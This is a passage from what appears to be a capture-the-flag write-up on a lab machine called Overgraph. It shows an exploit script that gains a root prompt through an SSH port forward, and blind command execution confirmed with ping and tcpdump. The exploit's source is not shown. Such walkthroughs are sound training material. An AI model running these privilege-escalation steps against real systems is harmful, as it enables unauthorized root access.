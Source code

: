 

    oxdf@hacky$ python root.py 
    [+] Starting local process './nreport': pid 104479
    [*] Switching to interactive mode
    $ id
    uid=1000(oxdf) gid=1000(oxdf) groups=1000(oxdf),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),120(lpadmin),132(lxd),133(sambashare),139(libvirt),998(vboxsf)



To get this running on Overgraph, I'll connect over SSH as user with
`-L 9851:localhost:9851`, creating a listening port on my VM that will
forward traffic to 9851 on Overgraph's localhost.

I'll run the exploit, and get what looks like a shell:



    oxdf@hacky$ python root.py REMOTE
    [+] Opening connection to 127.0.0.1 on port 9851: Done
    [*] Switching to interactive mode
    ...[snip]...
    root@overgraph:~# $



However, when I run a command, there's no output:



    root@overgraph:~# id


    root@overgraph:~#



Trying things like `reset`, or even a full [shell
upgrade](https://www.youtube.com/watch?v=DqE6DxqJg8Q) doesn't fix it.

If I try `ping -c 1 10.10.14.6`, I will detect ICMP packets in
`tcpdump`:



    oxdf@hacky$ sudo tcpdump -ni tun0 icmp
    tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
    listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
    09:47:47.806923 IP 10.10.11.157 > 10.10.14.6: ICMP echo request, id 2, seq 1, length 64
    09:47:47.806980 IP 10.10.14.6 > 10.10.11.157: ICMP echo reply, id 2, seq 1, length 64
    tcpdump: pcap_loop: The interface went down
    2 packets captured
    2 packets received by filter
    0 packets dropped by kernel



So it's working, just not getting output.

#### SSH

Without seeing anything, there are many approaches I could take,
including:
